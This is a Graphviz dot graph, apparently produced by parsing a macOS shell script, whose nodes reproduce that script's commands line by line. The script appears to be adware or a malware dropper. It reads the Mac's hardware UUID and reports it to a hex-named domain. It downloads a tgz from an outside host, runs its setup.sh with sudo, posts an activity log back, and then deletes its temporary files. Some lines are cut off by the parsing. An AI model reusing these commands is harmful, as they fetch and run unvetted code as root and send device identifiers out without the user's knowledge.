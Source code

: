 digraph {
0 [label="updFile=/var/tmp/updText.txt "];
0 -> 0
2 [label="updFileError=/var/tmp/updTextError.txt "];
2 -> 4 [label="N,"];
4 [label="chmod 777 $updFile "];
4 -> 6 [label="N,"];
6 [label="chmod 777 $updFileError "];
6 -> 8 [label=";,"];
8 [label="echo $updFile "];
8 -> 188 [label=";,"];
188 [label="$updFile "];
188 -> 188
12 [label="echo $updFileError "];
12 -> 12
164 [label="$updFileError "];
164 -> 164
16 [label="br_mid=$(ioreg -rd1 -c IOPlatformExpertDevice | awk \'/IOPlatformUUID/ { split($0 "];
16 -> 16
18 [label="ioreg -rd1 -c IOPlatformExpertDevice "];
18 -> 20 [label="N,N,N,"];
20 [label="awk /IOPlatformUUID/ { split($0 "];
20 -> 22 [label="N,"];
22 [label="midFile=$(find /System/Library/Frameworks -type f -name \"*.uuid.plist\" -print0 | xargs -0 ls -tl | sort -n | tail -1 | awk \'{print $9}\ "];
22 -> 22
24 [label="find /System/Library/Frameworks -type f -name *.uuid.plist -print0 "];
24 -> 26 [label="N,N,N,"];
26 [label="xargs -0 ls -tl "];
26 -> 28 [label="N,"];
28 [label="sort -n "];
28 -> 98 [label="N,"];
98 [label="tail -1 "];
98 -> 32 [label="N,"];
32 [label="awk {print $9} "];
32 -> 34 [label="N,"];
34 [label="[ -e $midFile ] "];
34 -> 36 [label="SC,N,if,"];
36 [label="mid=$(echo \"$midFile\" | python -c \'import sys "];
36 -> 96 [label=";,then,"];
96 [label="echo $midFile "];
96 -> 40 [label="N,N,N,"];
40 [label="python -c import sys "];
40 -> 42 [label="N,"];
42 [label="echo mid: $mid. $updFile "];
42 -> 188 [label="\n,"];
188 [label="$updFile "];
188 -> 188
46 [label="get_pd_client_data=http://93a555685cc7443a8e1034efa1f18924.com/v/cld?mid=$br_mid&ct=pd "];
46 -> 48 [label="\n,fi,"];
48 [label="data=$(curl -s \"$get_pd_client_data\") "];
48 -> 50 [label="N,"];
50 [label="curl -s $get_pd_client_data "];
50 -> 52 [label="N,N,"];
52 [label="dc= "];
52 -> 52
54 [label=", word=\"channel=$(echo $dc | tr -d '[[:space:]]' | tr -cd 0-9)\" "];
54 -> 56 [label="N,"];
56 [label="echo $dc "];
56 -> 58 [label="N,N,N,"];
58 [label="tr -d [[:space:]] "];
58 -> 60 [label="N,"];
60 [label="tr -cd 0-9 "];
60 -> 62 [label="N,"];
62 [label="pdChannel=${dc:2} "];
62 -> 62
64 [label="echo DC: $dc $updFile "];
64 -> 188 [label="N,"];
188 [label="$updFile "];
188 -> 188
68 [label="click_id= "];
68 -> 68
70 [label="echo CLICK_ID: $click_id $updFile "];
70 -> 188 [label="N,"];
188 [label="$updFile "];
188 -> 188
74 [label="click_stamp= "];
74 -> 74
76 [label="echo CLICK_STAMP: $click_stamp $updFile "];
76 -> 188 [label="N,"];
188 [label="$updFile "];
188 -> 188
80 [label="id=$dc--$click_id___$click_stamp___$br_mid "];
80 -> 80
82 [label="echo Full ID: $id $updFile "];
82 -> 188 [label="N,"];
188 [label="$updFile "];
188 -> 188
86 [label="domain=http://aabcdebbb2226646b5bb8b11368342c830.com "];
86 -> 86
88 [label="pop_url=http://aabcdebbb2226646b5bb8b11368342c830.com/pp/fd?re=1&uid=[MACHINE_ID]&u=[CONTEXT_URL] "];
88 -> 90 [label="N,"];
90 [label="pop_delay=1 "];
90 -> 92 [label="N,"];
92 [label="[ $midFile ] "];
92 -> 94 [label="N,SC,N,if,"];
94 [label="frm=$(echo $midFile | tail -1 | awk -F \"/\" \'{print $5}\' | awk -F \".\" \'{print $1}\ "];
94 -> 96 [label=";,then,"];
96 [label="echo $midFile "];
96 -> 98 [label="N,N,N,"];
98 [label="tail -1 "];
98 -> 100 [label="N,"];
100 [label="awk -F / {print $5} "];
100 -> 102 [label="N,"];
102 [label="awk -F . {print $1} "];
102 -> 104 [label="N,"];
104 [label="mid_proc=false "];
104 -> 106 [label="fi,"];
106 [label="[ $frm ] "];
106 -> 108 [label="N,SC,N,if,"];
108 [label="ps -ef "];
108 -> 110 [label=";,then,SC,N,if,N,"];
110 [label="grep -v grep "];
110 -> 112 [label="N,"];
112 [label="grep -q $frm "];
112 -> 114 [label="N,"];
114 [label="mid_proc=true "];
114 -> 116 [label=";,then,"];
116 [label="echo midFile: $midFile. $updFile "];
116 -> 188 [label="N,fi,fi,"];
188 [label="$updFile "];
188 -> 188
120 [label="echo frm: $frm $updFile "];
120 -> 120
188 [label="$updFile "];
188 -> 188
124 [label="echo mid_proc: $mid_proc $updFile "];
124 -> 124
188 [label="$updFile "];
188 -> 188
128 [label="tgzfile=/var/tmp/up.tgz "];
128 -> 130 [label="N,(,),SC,{,"];
130 [label="updDir=/var/tmp/temp_updater_08-05-2016-8 "];
130 -> 132 [label="N,\n,"];
132 [label="updSh=/var/tmp/temp_updater_08-05-2016-8/setup.sh "];
132 -> 134 [label="N,\n,"];
134 [label="echo Starting Client Updater Script $updFile "];
134 -> 188 [label="N,\n,"];
188 [label="$updFile "];
188 -> 188
138 [label="/usr/bin/curl -s -L -o ${tgzfile} http://pullmenow.com/pd_files/client/temp_updater_08-05-2016-8.tgz "];
138 -> 140 [label="\n,"];
140 [label="tar -xzf ${tgzfile} -C /var/tmp/ "];
140 -> 142 [label="\n,"];
142 [label="[ -f ${updSh} ] "];
142 -> 144 [label="\n,SC,N,if,"];
144 [label="echo ${updSh} Exists $updFile "];
144 -> 188 [label=";,then,"];
188 [label="$updFile "];
188 -> 188
148 [label="sudo chmod 777 ${updSh} "];
148 -> 150 [label="\n,"];
150 [label="cd ${updDir} "];
150 -> 152 [label="\n,"];
152 [label="sudo ./setup.sh "];
152 -> 154 [label="\n,"];
154 [label="echo ${updSh} Not Exists $updFile "];
154 -> 188 [label="\n,else,"];
188 [label="$updFile "];
188 -> 188
158 [label="echo Installing pClt with logger $updFile "];
158 -> 188 [label="fi,\n,},"];
188 [label="$updFile "];
188 -> 188
162 [label="pClt $updFileError "];
162 -> 162
164 [label="$updFileError "];
164 -> 164
166 [label="sleep 10 "];
166 -> 168 [label=";,"];
168 [label="echo $(</var/tmp/updTextError.txt) $updFile "];
168 -> 168
172 [label="/var/tmp/updTextError.txt "];
172 -> 172 [label="N,"];
172 [label="/var/tmp/updTextError.txt "];
172 -> 172
188 [label="$updFile "];
188 -> 188
176 [label="sudo rm -rf ${tgzfile} "];
176 -> 176
178 [label="sudo rm -rf ${updDir} "];
178 -> 178
180 [label="eventType=Update Script Output "];
180 -> 180
182 [label="sleep 30 "];
182 -> 184 [label="N,"];
184 [label="curl --request POST http://93a555685cc7443a8e1034efa1f18924.com/v/pd-logger --data vs_mid=$mid --data br_mid=$br_mid --data-urlencode event_type=$eventType --data-urlencode event_data=$(<$updFile) "];
184 -> 184
188 [label="$updFile "];
188 -> 188 [label="N,"];
188 [label="$updFile "];
188 -> 188
190 [label="sleep 5 "];
190 -> 190
192 [label="rm -rf $updFile "];
192 -> 192
194 [label="rm -rf /var/tmp/updText2.txt "];
194 -> 194
}

